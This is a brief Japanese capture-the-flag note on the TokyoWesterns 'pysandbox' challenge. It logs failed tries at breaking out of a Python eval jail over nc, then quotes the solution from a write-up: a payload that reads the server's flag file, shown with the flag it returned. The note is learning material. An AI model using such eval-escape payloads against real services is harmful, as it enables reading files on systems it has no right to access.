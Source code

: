# pysandbox
```
let's break sandbox.
start from nc pwn1.chal.ctf.westerns.tokyo 30001
```

# do
- これはpyjail!!!解きたい!!!!
- [qiitaの記事](https://qiita.com/t2y/items/0964d01bf3db0233e3c1)を見ると、literal_evalの方が安全らしい→evalを使っているので、その脆弱性をつく？
- `python eval vulnarable`あたりで検索して[記事](http://vipulchaskar.blogspot.com/2012/10/exploiting-eval-function-in-python.html)を見つける
- `dir`あたりが実行できればよいのだけれど、そもそも`nc`でつながらない…詰み。
- つながった。
```
vagrant@vagrant:~$ nc pwn1.chal.ctf.westerns.tokyo 30001
a
vagrant@vagrant:~$ nc pwn1.chal.ctf.westerns.tokyo 30001
f
vagrant@vagrant:~$ nc pwn1.chal.ctf.westerns.tokyo 30001
1+1
2vagrant@vagrant:~$ nc pwn1.chal.ctf.westerns.tokyo 30001
1+1+^H^H
vagrant@vagrant:~$ nc pwn1.chal.ctf.westerns.tokyo 30001
dir(module)
Invalid inputvagrant@vagrant:~$
```
- こんな感じで実行される
- とりあえず`ls -al`したい
- `os.system("ls -al")`はinvalid inputではじかれるのでこれっぽい
- The Abyssを試したけどはじかれた
- `'__class__'`は通るので、文字列は許容される

# 解説みた
```
vagrant@vagrant:~$ nc pwn1.chal.ctf.westerns.tokyo 30001
[][sys.stdout.write(open('flag').read())]
TWCTF{go_to_next_challenge_running_on_port_30002}
```
- 第一段階はこれでOKらしい…たぶん頑張れば解けたなぁ。おぼえとこ。